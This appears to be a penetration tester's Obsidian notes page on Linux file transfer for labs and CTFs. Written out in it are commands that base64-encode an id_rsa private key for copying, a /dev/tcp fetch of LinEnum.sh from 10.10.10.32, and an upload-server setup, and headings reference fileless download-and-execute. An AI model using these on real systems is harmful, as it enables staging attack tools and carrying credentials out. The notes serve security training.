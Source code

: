 # Linux File Transfer

## Table of Contents
```table-of-contents
exclude: /Table of Contents/i
minLevel: 2
style: nestedList
hideWhenEmpty: true
```

## Overview

What this technique is and when I need it

## Downloading

### Base64 Encoding

**Step 1:** Check the MD5 hash of the contents.
```bash
md5sum id_rsa
```

**Step 2:** Encode contents to base64 and copy it to clipboard.
```bash
cat id_rsa | base64 -w 0; echo
```

**Step 3:** On the second Linux machine, decode the Base64 file content.
```bash
echo -n 'encoded' | base64 -d > id_rsa
```

**Step 4:** Confirm the MD5 hash matches.
```bash
md5sum id_rsa
```

### wget

#### Method 1: Download

Download a file.
![[wget#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[wget#^fileless-download]]

### cURL

#### Method 1: Download

Download a file.
![[curl#^simple-download]]

#### Method 2: Download - Fileless

Download and execute a file in memory (fileless).
![[curl#^fileless-download]]

### Bash

#### Method 1: /dev/tcp

**Step 1:** Connect to the target webserver.
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

**Step 2:** Send a HTTP GET request for the file.
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

**Step 3:** Print the response.
```bash
cat <&3
```

### SSH

#### Method 1: SCP

![[scp#^download-file-from-linux]]

### Code
#### Method 1: Python

**Step 1:** Create a webserver
![[python#^python3-webserver]]

**Step 2:** Download a file.
![[python#^download-remote-file]]

#### Method 2: PHP

**Step 1:** Create a webserver.
![[php#^create-webserver]]

**Step 2:** Download a file.
![[php#^download-remote-file]]

#### Method 3: Ruby

**Step 1:** Create a webserver.
![[ruby#^create-webserver]]

**Step 2:** Download a file.
![[ruby#^download-remote-file]]

#### Method 4: Perl

**Step 1:** Create a webserver.
![[perl#^create-webserver]]

**Step 2:** Download a file.
![[perl#^download-remote-file]]


## Uploading

### HTTP

#### Method 1: uploadserver

**Step 1:** Create a Self-Signed Certificate
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

**Step 2:** Start the webserver
```bash
mkdir www && cd www; sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Step 3:** Upload files.
![[curl#^upload-multiple-files-insecure]]

### SSH

#### Method 1: SCP

![[scp#^upload-file-to-linux]]

### Python

#### Method 1: uploadserver

**Step 1:** Start the webserver
![[python#^uploadserver]]

**Step 2:** Upload a file.
![[python#^upload-file]]

### Netcat

**Step 1:** On one Linux machine, open a listener to write the expected file data.
![[netcat#^receive-file-over-tcp]]

**Step 2:** On the other machine, send the file.
![[netcat#^send-file-over-tcp]]

### Ncat

**Step 1:** On one Linux machine, open a listener to write the expected file data.
![[ncat#^receive-file-from-listener]]

**Step 2:** On the other machine, send the file.
![[ncat#^send-file-to-listener]]

## File Encryption

**Step 1:** Encrypt a file
![[openssl#^encrypt-file-aes]]

**Step 2:** Decrypt the file
![[openssl#^decrypt-file-aes]]

## GTFOBins

To search for the download and upload function in [GTFOBins](https://gtfobins.github.io/) for Linux Binaries, we can use `+file download` or `+file upload`.
![[Pasted image 20250614115249.png]]

## Related Techniques

- [[Windows File Transfer]]
- [[Linux PrivEsc]]

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #linux-file-transfer
SORT file.ctime DESC
LIMIT 5
```

## Learning Resources

- [File Transfers - HTB Academy](https://academy.hackthebox.com/module/details/24)

#linux-file-transfer #technique